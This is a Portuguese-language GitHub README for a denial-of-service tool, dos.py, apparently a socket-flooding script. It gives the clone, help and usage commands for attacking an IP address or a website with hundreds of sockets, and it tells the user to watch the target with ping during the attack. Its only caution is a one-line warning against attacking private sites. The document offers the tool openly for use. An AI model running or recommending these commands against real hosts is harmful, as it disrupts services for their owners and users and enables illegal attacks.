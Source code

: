 # DoS-attacker

![GitHub repo size](https://img.shields.io/github/repo-size/DioBruh/Dos-Attack?style=for-the-badge)
![GitHub language count](https://img.shields.io/github/languages/count/DioBruh/Dos-Attack?style=for-the-badge)
![GitHub forks](https://img.shields.io/github/forks/DioBruh/Dos-Attack?style=for-the-badge)
![Bitbucket open issues](https://img.shields.io/bitbucket/issues/DioBruh/Dos-Attack?style=for-the-badge)
![Bitbucket open pull requests](https://img.shields.io/bitbucket/pr-raw/DioBruh/Dos-Attack?style=for-the-badge)

<p>
  <img src="https://img2.gratispng.com/20180331/piw/kisspng-giant-panda-bear-pixel-art-5ac02cd75add07.0257870115225438313722.jpg"width="250px">
</p>

## ❕ Atenção
* Não ataque sites privados. isto é illegal.

## 🖥️ Pré-requisitos
* Ultima versão do `Python3`.
para verificar isto, é bem simples. Basta digitar:

```powershell
python --version
```

## ☕ Utilização
`Clone` o repositorio usando:

```
git clone https://github.com/DioBruh/Dos-Attack/
```

`Navegue` até a pasta do scanner utilizando:

```
cd tools-hacking
```

```
cd dos
```

`Usage:`

```
python dos.py --help 
```

```powershell
usage: dos.py [-h] [--http [HTTP ...]] [-i [IP]] [-p PORT] [-s SOCKETS]

optional arguments:
  -h, --help            show this help message and exit
  --http [HTTP ...]     Attack https://<host>
  -i [IP], --ip [IP]    Host to attack.
  -p PORT, --port PORT  Port of webserver, usually 80
  -s SOCKETS, --sockets SOCKETS
                        Number of sockets to use in the test
```

#### Uso para ip. 

```cmd
python dos.py --ip <ip> -p <port> -s 500
```

#### Em outro terminal, abra um ping no ip que está atacando.

### Windows

```bat
ping <ip> -t
```

### Linux
```cmd
ping <ip> 
```



### Uso para site.

```cmd
python dos.py --http <web_site> -p <port> -s 500
```

default port is: 80<br>
default socks is: 150

Existem 2 modos possiveis para os ataques.
* IP attack.
* WebSite attack.

## 🤝 Colaboradores.
<table>
    <td align="center">
      <a href="https://github.com/DioBruh/">
        <img src="https://github.com/OnlyFalopas/falopas-painel/blob/main/devs/87872423.jpg" width="100px;" alt="Foto do DIO"/><br>
        <sub>
          <b>Dio Brando</b>
        </sub>
      </a>
    </td>
  <td align="center">
      <a href="https://github.com/KobaWare">
        <img src="https://avatars.githubusercontent.com/u/89495720?v=4" width="100px;" alt="Foto do josh"/><br>
        <sub>
          <b>KobaWare </b>
        </sub>
      </a>
    </td>
  </tr>
</table>

